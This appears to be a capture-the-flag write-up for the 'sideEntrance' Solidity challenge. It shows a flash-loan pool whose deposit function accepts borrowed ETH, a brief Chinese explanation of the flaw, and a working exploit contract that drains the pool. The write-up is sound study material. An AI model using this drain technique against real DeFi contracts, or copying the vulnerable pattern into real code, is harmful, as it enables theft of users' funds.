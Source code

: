 ```yaml
---
title: sideEntrance
---
```


# Description
A surprisingly simple pool allows anyone to deposit ETH, and withdraw it at any point in time.

It has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.

Starting with 1 ETH in balance, pass the challenge by taking all ETH from the pool.

# Code
```solidity
contract SideEntranceLenderPool {
    using Address for address payable;

    mapping(address => uint256) private balances;

    error NotEnoughETHInPool();
    error FlashLoanHasNotBeenPaidBack();

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amountToWithdraw = balances[msg.sender];
        balances[msg.sender] = 0;
        payable(msg.sender).sendValue(amountToWithdraw);
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;
        if (balanceBefore < amount) revert NotEnoughETHInPool();

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        if (address(this).balance < balanceBefore) {
            revert FlashLoanHasNotBeenPaidBack();
        }
    }
}
```
# Solution
在`SideEntranceLenderPool::deposit()`函数中没有判断资金的来源，所以我们可以在闪电贷的时候，再将资金存入，从而完成这次攻击。
# Exp
```solidity
contract tmpAtt {
    
    SideEntranceLenderPool pool;
    constructor(address _pool) payable {
       pool = SideEntranceLenderPool(_pool);
       
    }
    function attack() external  {
        pool.flashLoan(address(pool).balance);
        
    }
    function execute() external payable{
        pool.deposit{value: msg.value}();
    }
    function withdraw() external {
        pool.withdraw();
        payable(msg.sender).transfer(address(this).balance);
    }
    receive() external payable {}
}
```